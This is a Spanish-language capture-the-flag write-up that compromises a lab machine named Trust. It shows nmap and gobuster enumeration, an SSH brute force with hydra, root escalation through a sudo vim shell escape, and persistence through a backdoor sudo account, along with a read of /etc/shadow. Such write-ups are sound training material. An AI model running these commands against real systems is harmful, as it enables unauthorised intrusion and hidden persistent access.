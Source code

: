 
![](img/Pasted%20image%2020241207191507.png#center)


Este writeup documenta la explotación de la máquina **Trust**, clasificada como de nivel muy fácil. Aunque sencilla, los creadores suelen incluir pequeños trucos para hacerla más interesante. ¡Vamos a ello!

---

## Reconocimiento inicial



Primero verificamos la conectividad de la máquina con un **ping**, observando un **TTL de 64**, lo que indica que el sistema objetivo utiliza **Linux**.

![](img/Pasted%20image%2020241207191758.png#center)

---

## Enumeración


#### Escaneo de puertos


Realizamos un escaneo de puertos con **nmap** para identificar los que están abiertos:
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.18.0.2
```

![](img/Pasted%20image%2020241207191855.png#center)




Encontramos los puertos **22** (SSH) y **80** (HTTP) abiertos. Luego, profundizamos con un escaneo más exhaustivo:
```
nmap -p 22,80 -sVC --min-rate 5000 -n -Pn 172.18.0.2
```

![](img/Pasted%20image%2020241207192244.png#center)

El puerto **80** está asociado a un servidor web Apache, lo que podría ser vulnerable. Vamos a inspeccionarlo.

---

### Análisis del servidor web


Al acceder al servidor web y revisar el código fuente, no encontramos nada relevante.
![](img/Pasted%20image%2020241207215350.png)




Para explorar más, usamos **gobuster** en busca de directorios y archivos:
```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,cgi,txt
```
![](img/Pasted%20image%2020241207220031.png)

Gobuster encuentra el archivo **secret.php**, que inspeccionamos. El archivo muestra un mensaje indicando que la web no puede ser hackeada y menciona un posible usuario: **mario**.
![](img/Pasted%20image%2020241207220242.png)

---

## Explotación



Con el puerto **22** abierto y el usuario **mario**, intentamos una fuerza bruta al protocolo **SSH** usando **hydra**:
```
hydra -l mario -P /usr/share//wordlists/rockyou.txt ssh://172.18.0.2
```
![](img/Pasted%20image%2020241207220630.png#center)

Obtenemos las credenciales:

- **Usuario:** mario
- **Contraseña:** chocolate



Probamos las credenciales con **ssh**:
```
ssh mario@172.18.0.2
```
![](img/Pasted%20image%2020241207220749.png#center)

Accedemos con éxito a la máquina.

---

## Post-explotación



Verificamos el usuario con el que hemos ingresado:
```
whoami
```
![](img/Pasted%20image%2020241207220931.png#center)




#### Escalada de privilegios

Comprobamos si podemos ejecutar comandos como **root** con **sudo**:
```
sudo -l
```
![](img/Pasted%20image%2020241207221056.png#center)

El binario **/usr/bin/vim** puede ejecutarse como root. Con la ayuda de la web **GTFObins**, podemos escalar privilegios ejecutando:
```
sudo /usr/bin/vim
```

Dentro de vim, usamos el comando `:!/bin/sh` para obtener una shell como root.
![](img/Pasted%20image%2020241207221412.png#center)




Ejecutamos el programa
```
sudo /usr/bin/vim
```
![](img/Pasted%20image%2020241207221709.png)



Una vez dentro tenemos que teclear `:!/bin/sh`
![](img/Pasted%20image%2020241207221827.png)


Al darle `ENTER`, recibimos el siguiente `prompt`
![](img/Pasted%20image%2020241207221916.png)


Comprobamos que usuario somos, si hemos escalado privilegios

![](img/Pasted%20image%2020241207221952.png#center)


Somo el usuario `root`. Para tener mas comodidad vamos a obtener una shell mas completa
```
/bin/bash -i
```

![](img/Pasted%20image%2020241207222056.png#center)


---

### Persistencia

Para mantener el acceso, creamos un nuevo usuario llamado **jonay** y lo añadimos al grupo **sudo**:

1. Crear usuario y asignar contraseña: 
```
useradd -m -s /bin/bash jonay
passwd jonay
```

![](img/Pasted%20image%2020241207222512.png#center)
   
    
2. Añadirlo al grupo **sudo**:
```
usermod -aG sudo jonay 
```

![](img/Pasted%20image%2020241207222555.png#center)
		
3. Verificar la creación:
```
cat /etc/shadow
```

![](img/Pasted%20image%2020241207222708.png#center)
    

Probamos el acceso con **ssh**:
```
ssh jonay@172.18.0.2
```
![](img/Pasted%20image%2020241207222834.png#center)

Verificamos si podemos escalar privilegios. Según **sudo -l**, podemos ejecutar cualquier binario como root. Probamos con:
```
sudo -l
```
![](img/Pasted%20image%2020241207222953.png)

Gracias a esta configuración, tenemos acceso persistente con privilegios de root.

---

## Conclusión

La máquina **Trust** nos permitió practicar:

1. Reconocimiento con herramientas como **nmap** y **gobuster**.
2. Fuerza bruta con **hydra**.
3. Escalada de privilegios utilizando **vim** y **GTFObins**.
4. Configuración de persistencia creando un nuevo usuario con acceso privilegiado.

